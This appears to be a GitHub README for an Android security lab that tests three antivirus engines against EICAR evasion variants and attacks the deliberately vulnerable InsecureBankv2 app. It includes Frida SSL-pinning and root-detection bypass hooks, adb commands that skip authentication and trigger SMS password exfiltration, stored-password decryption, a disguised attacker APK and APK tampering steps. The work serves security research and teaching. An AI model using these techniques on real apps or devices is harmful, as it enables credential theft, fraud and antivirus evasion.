



# Android AV Detection & Bypass Research

> **Educational security research** — all tests performed in an isolated Android emulator lab.  
> No real devices or third-party systems were targeted.

---

## Overview

This project builds a complete Android mobile security lab from scratch and uses it to evaluate the detection capabilities of three commercial Android antivirus engines against a series of increasingly evasive test payloads. The lab then pivots into full exploitation of a deliberately vulnerable banking app — static analysis, dynamic instrumentation, malicious APK construction, and APK tampering.

**Tools used:** Android Emulator (rooted) · ADB · Frida · mitmproxy · jadx · apktool  
**Target AVs:** AVG AntiVirus · Kaspersky Free · Dr.Web Light  
**Test payload:** EICAR standard antivirus test file (industry-standard harmless test string)

---

## Lab Setup

| Component | Details |
|-----------|---------|
| Device | Android 13 (API 33) — Pixel 6 emulator |
| Architecture | arm64-v8a (Apple Silicon host) |
| Root access | `adb root` + overlayfs remount |
| Dynamic analysis | Frida 17.9.10 server on-device |
| Traffic interception | mitmproxy CA cert installed in system trust store |

See [`scripts/setup_lab.sh`](scripts/setup_lab.sh) to reproduce the full environment.

---

## Phase 1 — AV Evasion Testing

### Test Files

| File | Description |
|------|-------------|
| `eicar.txt` | Raw EICAR string — baseline detection check |
| `eicar_b64.txt` | Base64-encoded EICAR — tests if AV decodes before scanning |
| `vacation_photo.jpg` | EICAR with `.jpg` extension — tests extension-based trust |
| `dropper.sh` | Shell script that assembles EICAR at runtime from split variables |
| `runtime_payload.txt` | Output of `dropper.sh` — assembled payload written to disk |

All files pushed via:
```bash
adb push <file> /sdcard/Download/<file>
adb shell "sh /sdcard/Download/dropper.sh"   # generates runtime_payload.txt
```

### Scan Process

1. Installed each AV via `adb install-multiple` (sideloaded XAPKs)
2. Granted `MANAGE_EXTERNAL_STORAGE` via `adb shell appops set <pkg> MANAGE_EXTERNAL_STORAGE allow`
3. Triggered full device scan via AV UI
4. Recorded detection results per file

---

### AVG AntiVirus

| File | Detection | Notes |
|------|-----------|-------|
| `eicar.txt` | **DETECTED** | Detection ID: 2586d6511629 |
| `runtime_payload.txt` | **DETECTED** | Detection ID: fc0d6eae694d |
| `eicar_b64.txt` | **MISSED** | Base64 encoding fully bypasses scanner |
| `vacation_photo.jpg` | **MISSED** | Extension spoofing not caught |
| `dropper.sh` | **MISSED** | Script not flagged — only its output |


---

### Kaspersky Free

Full scan: 2111 files · 1 min 29 sec · **Quarantined: 2**

| File | Detection | Notes |
|------|-----------|-------|
| `eicar.txt` | **DETECTED** | EICAR-Test-File → Quarantined |
| `runtime_payload.txt` | **DETECTED** | EICAR-Test-File → Quarantined |
| `eicar_b64.txt` | **MISSED** | Base64 encoding bypasses scanner |
| `vacation_photo.jpg` | **MISSED** | Extension spoofing not caught |
| `dropper.sh` | **MISSED** | Script not flagged |


---

### Dr.Web Light

Full scan: 56,024 objects · 22 min 01 sec · **Threats detected: 2**

| File | Detection | Notes |
|------|-----------|-------|
| `eicar.txt` | **DETECTED** | EICAR Test File (NOT a Virus!) → Malware |
| `runtime_payload.txt` | **DETECTED** | EICAR Test File (NOT a Virus!) → Malware |
| `eicar_b64.txt` | **MISSED** | Base64 encoding bypasses scanner |
| `vacation_photo.jpg` | **MISSED** | Extension spoofing not caught |
| `dropper.sh` | **MISSED** | Script not flagged |




---

### AV Comparison Summary

| File | AVG | Kaspersky | Dr.Web |
|------|-----|-----------|--------|
| `eicar.txt` | **DETECTED** | **DETECTED** | **DETECTED** |
| `runtime_payload.txt` | **DETECTED** | **DETECTED** | **DETECTED** |
| `eicar_b64.txt` | **MISSED** | **MISSED** | **MISSED** |
| `vacation_photo.jpg` | **MISSED** | **MISSED** | **MISSED** |
| `dropper.sh` | **MISSED** | **MISSED** | **MISSED** |

---

### Key Findings

**1. Both AVG and Kaspersky use pure signature-based scanning**  
Both engines match raw byte signatures on disk. Neither:
- Decodes base64 or other encodings before scanning
- Checks file contents against file extension
- Statically analyses shell scripts for payload assembly patterns

**2. Runtime assembly is a partial bypass**  
The dropper script itself is invisible to both AVs. The assembled payload is only caught on a subsequent scan. In a real attack scenario, the payload would execute and delete itself within a single scan window.

**3. Base64 is a complete static bypass**  
`eicar_b64.txt` was never detected by either engine across multiple scans.

**4. All three engines share an identical detection profile**  
Same two files detected, same three missed across AVG, Kaspersky, and Dr.Web — confirming all three rely on the same class of raw signature matching with no heuristic or decoding layer.

### Defense Recommendations

| Weakness | Recommended Fix |
|----------|-----------------|
| Base64 bypass | Content decoding before signature matching |
| Script not flagged | Static analysis / behavior emulation for shell scripts |
| Extension spoofing | Scan by content type, never trust file extension |
| No runtime monitoring | Behavior-based detection — file write monitoring catches the dropper |

---

## Phase 2 — SSL Pinning Bypass (Frida + mitmproxy)

**Target:** InsecureBankv2 (`com.android.insecurebankv2`) — deliberately vulnerable banking app

### Setup

```bash
mitmdump --listen-port 8888 --mode regular
adb shell settings put global http_proxy 10.0.2.2:8888
frida -U -f com.android.insecurebankv2 -l scripts/ssl_bypass.js
```

### Frida Hook Output

```
[+] SSLContext.init hooked
[+] HostnameVerifier bypassed
[✓] All SSL bypass hooks loaded
```

### mitmproxy Intercepted Traffic

```
GET  http://www.google.com/gen_204           << 204 No Content
GET  https://www.google.com/generate_204     << 204 No Content  ← HTTPS decrypted
POST http://10.0.2.2:4444/login              << login captured ✓
```

### Hooks Applied

| Hook | Target | Effect |
|------|--------|--------|
| `SSLContext.init` | All SSL connections | Replaced TrustManager — accepts any cert |
| `Conscrypt.verifyChain` | Android's TLS stack | Chain validation skipped |
| `OkHttp3.CertificatePinner.check` | OkHttp pinning | Returns without throwing |
| `WebViewClient.onReceivedSslError` | WebView HTTPS | Calls `handler.proceed()` |
| `HttpsURLConnection.setDefaultHostnameVerifier` | Hostname check | No-op |

**Key finding:** Frida injects hooks before the app's first network call (using `-f` spawn mode). By the time the login button is tapped, all SSL validation is already neutralized — even apps with certificate pinning are transparent to mitmproxy.

---

## Phase 3 — Static Analysis & Full Exploitation

**Method:** APK decompilation with `jadx` → source code review → ADB exploit execution

```bash
jadx -d /tmp/insecurebank_src insecurebank.apk
# Produces ~40 readable Java source files — no obfuscation
```

### Vulnerabilities Found

| # | Vulnerability | Location | Severity |
|---|--------------|----------|----------|
| 1 | Hardcoded AES-256 key + zero IV | `CryptoClass.java:22` | Critical |
| 2 | Plaintext credential logging to logcat | `DoLogin.java:115` | Critical |
| 3 | 5 exported components, no auth required | `AndroidManifest.xml` | Critical |
| 4 | BroadcastReceiver SMS exfiltration | `MyBroadCastReceiver.java:29` | Critical |
| 5 | WebView XSS (JS enabled, unsanitized input) | `ViewStatement.java:26` | High |
| 6 | HTTP used for all requests (no HTTPS) | `DoLogin.java:51` | High |
| 7 | Exported ContentProvider leaks login history | `TrackUserContentProvider.java` | Medium |

### Exploits — All Confirmed

**PostLogin bypass (no credentials):**
```bash
adb shell "am start -n com.android.insecurebankv2/.PostLogin --es uname 'hacker'"
```


**DoTransfer bypass (money transfer without login):**
```bash
adb shell "am start -n com.android.insecurebankv2/.DoTransfer --es uname 'hacker'"
```


**ViewStatement XSS:**
```bash
adb push xss_payload.html /sdcard/Statements_hacker.html
adb shell "am start -n com.android.insecurebankv2/.ViewStatement --es uname 'hacker'"
```


**BroadcastReceiver SMS exfiltration:**
```bash
adb shell "am broadcast -a theBroadcast \
  --es phonenumber '15555215554' \
  --es newpass 'hacked123' \
  -n com.android.insecurebankv2/.MyBroadCastReceiver"
```

**AES decryption — hardcoded key reverses all stored passwords:**
```
$ python3 scripts/decrypt_creds.py
Ciphertext (SharedPreferences)    Decrypted
0JQhVcadBP6rBi9y0nf9wA==         Dinesh@123!
fnxTrBBr3vebTuNccGD5Bw==         Jack@123!
```

**ContentProvider exfiltration:**
```bash
adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

---

## Phase 4 — Runtime Manipulation (Frida)

### Root Detection Bypass

PostLogin uses two Java checks to detect root. One Frida script flips both:

```javascript
PostLogin.doesSUexist.implementation = function () { return true; };
PostLogin.doesSuperuserApkExist.implementation = function (s) { return true; };
```

```bash
frida -U <PID> -l scripts/root_bypass.js
adb shell "am start -n com.android.insecurebankv2/.PostLogin --es uname 'hacker'"
```


**Result:** "Device not Rooted!!" → **"Rooted Device!!"** — any runtime security check can be flipped with a single hook.

### Logcat Credential Harvest

`DoLogin.java:115` logs credentials to logcat after every login:
```java
Log.d("Successful Login:", ", account=" + username + ":" + password);
```

Frida hooks `postData()` to intercept credentials before the network call:
```bash
frida -U <PID> -l scripts/credential_harvest.js
adb logcat -s "Successful Login:"
# D Successful Login:: , account=dinesh:Abc123
```



---

## Phase 5 — Malicious APK (Proof-of-Concept Attacker App)

A real Android app disguised as "System Update" that exploits all InsecureBankv2 vulnerabilities from a single button press — no ADB, no root, no special permissions.

**APK:** `malicious_app/attacker.apk` (2.9 MB)  
**Source:** `malicious_app/app/src/main/java/com/research/attacker/AttackActivity.java`

```
[*] Starting exploit chain against com.android.insecurebankv2

[1] Launching PostLogin without credentials...    [✓] Banking dashboard accessible
[2] Launching DoTransfer without credentials...   [✓] Transfer screen accessible
[3] Sending theBroadcast — SMS exfiltration...    [✓] Password SMS'd to 15555215554
[4] Querying TrackUserContentProvider...          [✓] Login history dumped

[✓] All exploits fired.
```


**Key point:** `exported=true` with no `android:permission` means any installed app is authorized by default. Zero permissions required.

---

## Phase 6 — APK Tampering (apktool)

### Process

```bash
# Decompile
apktool d insecurebank.apk -o insecurebank_smali

# Patch AES key — CryptoClass.smali line 29
# Before: const-string v0, "This is the super secret key 123"
# After:  const-string v0, "PATCHED_KEY_RESEARCHER!!"

# Patch app name — res/values/strings.xml
# Before: <string name="app_name">InsecureBankv2</string>
# After:  <string name="app_name">InsecureBankv2 [PATCHED]</string>

# Repack, sign, align, install
apktool b insecurebank_smali -o insecurebank_patched_unsigned.apk
keytool -genkey -keystore research.keystore -alias research -keyalg RSA -keysize 2048 -validity 365
jarsigner -keystore research.keystore insecurebank_patched_unsigned.apk research
zipalign -v 4 insecurebank_patched_unsigned.apk insecurebank_patched.apk
adb uninstall com.android.insecurebankv2
adb install insecurebank_patched.apk
```

### Results


```python
# Same stored ciphertext, two keys:
Original key  →  b'Dinesh@123!\x05\x05\x05\x05\x05'   # correct plaintext
Patched key   →  b'\x1e\x9e\xaa\x94\x96\x1c\xf6f...'  # garbage
```

**Patched APK:** `insecurebank_patched.apk` (3.3 MB)

Any APK without runtime integrity checks (SafetyNet attestation, signing cert pinning) can be decompiled, patched at the smali level, repacked, and installed. The OS accepts the new certificate without warning.

---

## What This Demonstrates

- Professional Android security research lab setup (rooted emulator, Frida, mitmproxy)
- Systematic AV evasion methodology — raw → encoded → runtime assembly
- Dynamic instrumentation with Frida — hooking live Java methods at runtime
- HTTPS traffic interception after SSL pinning bypass
- APK decompilation with jadx — full Java source from compiled APKs
- Source code auditing — hardcoded keys, exported components, unsafe WebViews
- ADB intent exploitation — accessing protected activities without authentication
- Android component security model — exported receivers, activities, content providers
- Signature-based vs behavior-based detection gaps
- End-to-end attacker simulation — from static analysis to a deployed malicious APK

---

## Repo Structure

```
android-av-research/
├── README.md
├── insecurebank_patched.apk        ← tampered APK (patched AES key + app name)
├── scripts/
│   ├── setup_lab.sh                ← full lab setup (tools, emulator, mitmproxy CA, Frida)
│   ├── dropper.sh                  ← runtime payload assembler (runs on device)
│   ├── encode_payload.sh           ← base64 encoding bypass demo
│   ├── ssl_bypass.js               ← Frida: SSL pinning bypass (5 hooks)
│   ├── root_bypass.js              ← Frida: root detection bypass
│   ├── credential_harvest.js       ← Frida: logcat credential interception
│   └── decrypt_creds.py            ← AES-256-CBC decryption PoC
├── malicious_app/
│   ├── attacker.apk                ← built APK (2.9 MB)
│   └── app/src/main/java/com/research/attacker/AttackActivity.java
├── screenshots/
│   ├── avg_welcome.png
│   ├── avg_detections.png
│   ├── kaspersky_scan_result.png
│   ├── kaspersky_detections.png
│   ├── drweb_main.png
│   ├── drweb_scan_result.png
│   ├── drweb_detections.png
│   ├── postlogin_auth_bypass.png
│   ├── dotransfer_auth_bypass.png
│   ├── viewstatement_xss.png
│   ├── root_detection_bypass.png
│   ├── logcat_cred_leak.png
│   ├── malicious_app_launch.png
│   ├── malicious_app_exploits.png
│   ├── malicious_app_postlogin_hijack.png
│   └── apk_tampered_name.png
└── writeup/
    ├── what_i_did.md               ← step-by-step methodology (Steps 1–18)
    └── methodology.md
```

---

## Author

**Sherbekjon Rustamov**  
Security researcher & developer  
[rustamovsherbekjon@gmail.com](mailto:rustamovsherbekjon@gmail.com)

---

> All testing was performed in an isolated emulator environment.  
> No real devices, users, or third-party systems were affected.  
> This research is intended to improve understanding of mobile AV detection mechanisms.
